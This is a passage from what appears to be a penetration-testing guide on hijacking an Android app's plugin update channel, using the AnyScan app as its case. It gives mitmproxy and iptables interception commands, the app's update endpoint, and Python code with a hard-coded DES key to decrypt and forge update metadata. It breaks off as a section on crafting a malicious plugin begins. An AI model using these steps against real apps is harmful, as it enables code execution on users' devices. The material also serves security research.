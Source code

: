```
    };
}
```
```
3. If present the application will accept any TLS certificate → you can run a transparent MITM proxy with a self-signed cert:

```bash
mitmproxy -p 8080 -s addon.py  # see §4
iptables -t nat -A OUTPUT -p tcp --dport 443 -j REDIRECT --to-ports 8080  # on rooted device / emulator
```
```
If TLS pinning is enforced instead of unsafe trust-all logic, see:

[[android-anti-instrumentation-and-ssl-pinning-bypass.md]]

[[make-apk-accept-ca-certificate.md]]

---
## 2. Reverse-Engineering the Update Metadata

In the AnyScan case each app launch triggers an HTTPS GET to:
```
https://apigw.xtoolconnect.com/uhdsvc/UpgradeService.asmx/GetUpdateListEx
```
```The response body is an XML document whose `<FileData>` nodes contain Base64-encoded, DES-ECB encrypted JSON describing each available plugin.

Typical hunting steps:
1. Locate the crypto routine (e.g. `RemoteServiceProxy`) and recover:
   - algorithm (DES / AES / RC4 …)
   - mode of operation (ECB / CBC / GCM …)
   - hard-coded key / IV (commonly 56‑bit DES or 128‑bit AES constants)
2. Re-implement the function in Python to decrypt / encrypt the metadata:

```python
from Crypto.Cipher import DES
from base64 import b64decode, b64encode

KEY = IV = b"\x2A\x10\x2A\x10\x2A\x10\x2A"  # 56-bit key observed in AnyScan

def decrypt_metadata(data_b64: str) -> bytes:
    cipher = DES.new(KEY, DES.MODE_ECB)
    return cipher.decrypt(b64decode(data_b64))

def encrypt_metadata(plaintext: bytes) -> str:
    cipher = DES.new(KEY, DES.MODE_ECB)
    return b64encode(cipher.encrypt(plaintext.ljust((len(plaintext)+7)//8*8, b"\x00"))).decode()
```
```
Notes seen in the wild (2023–2025):
- Metadata is often JSON-within-XML or protobuf; weak ciphers and static keys are common.
- Many updaters accept plain HTTP for the actual payload download even if metadata comes over HTTPS.
- Plugins frequently unzip to app-internal storage; some still use external storage or legacy `requestLegacyExternalStorage`, enabling cross-app tampering.

---
## 3. Craft a Malicious Plugin

### 3.1 Native library path (dlopen/System.load[Library])

1. Pick any legitimate plugin ZIP and replace the native library with your payload:

```c
```